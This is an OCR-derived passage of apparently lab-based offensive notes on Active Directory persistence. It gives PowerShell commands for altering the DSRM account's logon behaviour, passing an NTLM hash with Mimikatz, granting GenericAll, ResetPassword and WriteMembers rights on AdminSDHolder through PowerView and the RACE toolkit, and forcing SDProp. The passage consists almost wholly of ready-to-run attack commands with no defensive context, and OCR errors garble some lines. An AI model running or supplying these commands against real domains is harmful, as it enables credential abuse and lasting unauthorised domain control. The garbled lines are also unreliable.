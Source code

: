 ###### Change logon behaviour of DSRM account

```powershell
Enter-PSSession -Computername us-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

###### Pass the hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us-dc /user:Administrator /ntlm:917... /run:powershell.exe"'
```

###### To use PSRemoting, we must force NTLM auth

```powershell
Enter-PSSession -Computername us-dc -Authentication Negotiate
```

### AdminSDHolder

###### Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA

```powershell
Add-DomainObjectACL -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

###### Using ActiveDirectory Module and RACE [toolkit](https://github.com/samratashok/RACE)

```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName studentuserl -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,dc=us ,dc=techcorp,dc=local' -Verbose

Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder ,CN=System, dc=us,dc=techcorp,dc=local' -
PrincipalIdentity studentuserl -Rights ResetPassword -
PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -
Verbose

Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder ,CN=System, dc=us,dc=techcorp,dc=local' -
PrincipalIdentity studentuserl -Rights WriteMembers -PrincipalDomain
us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

###### Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```
